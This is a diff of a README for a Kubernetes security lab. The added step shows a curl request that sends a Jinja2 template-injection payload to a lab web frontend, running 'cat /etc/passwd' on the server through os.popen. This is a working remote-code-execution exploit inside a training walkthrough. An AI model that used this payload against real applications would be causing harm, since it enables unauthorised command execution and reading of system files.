

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -35,4 +42,10 @@ First, we access the web frontend
 
+```sh
+curl -i -s -k -X $'POST' \
+    -H $'Host: 192.168.64.18:30007' -H $'Content-Length: 153' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://192.168.64.18:30007' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://192.168.64.18:30007/get_response' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
+    --data-binary $'conversation=A&user_input=a+%7B%7B+self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27cat+%2Fetc%2Fpasswd%27%29.read%28%29+%7D%7D' \
+    $'http://192.168.64.18:30007/get_response'
+```
 ## Step 2: Enumerating our envioment
 
 By checking the envoroment variables we can deduce that we are in a Kubernetes enviorment.
````
Also changed, not shown: other parts of README.md (+13 -6 lines), images/lab.png (added).
